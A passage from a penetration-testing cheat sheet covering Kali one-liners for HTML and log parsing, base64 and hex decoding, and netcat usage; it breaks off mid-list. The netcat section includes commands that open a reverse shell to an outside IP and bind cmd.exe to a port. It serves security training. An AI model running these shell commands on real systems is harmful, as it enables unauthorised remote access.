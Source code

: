         `tail index.html`

    -   Extract all the lines that contain a string  
        `grep "href=" index.html`

    -   Cut a string by a delimiter, filter results then sort  
        `grep "href=" index.html | cut -d "/" -f 3 | grep "\\." | cut -d '"' -f 1 | sort -u`

    -   Using Grep and regular expressions and output to a file  
        `cat index.html | grep -o 'http://\[^"\]\*' | cut -d "/" -f 3 | sort –u > list.txt`

    -   Use a bash loop to find the IP address behind each host  
        `for url in $(cat list.txt); do host $url; done`

    -   Collect all the IP Addresses from a log file and sort by
        frequency  
        `cat access.log | cut -d " " -f 1 | sort | uniq -c | sort -urn`

-   Decoding using Kali

    -   Decode Base64 Encoded Values

        `echo -n "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | base64 --decode`

    -   Decode Hexidecimal Encoded Values  
        `echo -n "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874" | xxd -r -ps`

-   Netcat - Read and write TCP and UDP Packets

    -   Download Netcat for Windows (handy for creating reverse shells and transfering files on windows systems):
        [https://joncraton.org/blog/46/netcat-for-windows/](https://joncraton.org/blog/46/netcat-for-windows/)

    -   Connect to a POP3 mail server  
        `nc -nv $ip 110`

    -   Listen on TCP/UDP port  
        `nc -nlvp 4444`

    -   Connect to a netcat port  
        `nc -nv $ip 4444`

    -   Send a file using netcat  
        `nc -nv $ip 4444 < /usr/share/windows-binaries/wget.exe`

    -   Receive a file using netcat  
        `nc -nlvp 4444 > incoming.exe`

    -   Some OSs (OpenBSD) will use nc.traditional rather than nc so watch out for that...

            whereis nc
            nc: /bin/nc.traditional /usr/share/man/man1/nc.1.gz

            /bin/nc.traditional -e /bin/bash 1.2.3.4 4444


    -   Create a reverse shell with Ncat using cmd.exe on Windows  
        `nc.exe -nlvp 4444 -e cmd.exe`

        or
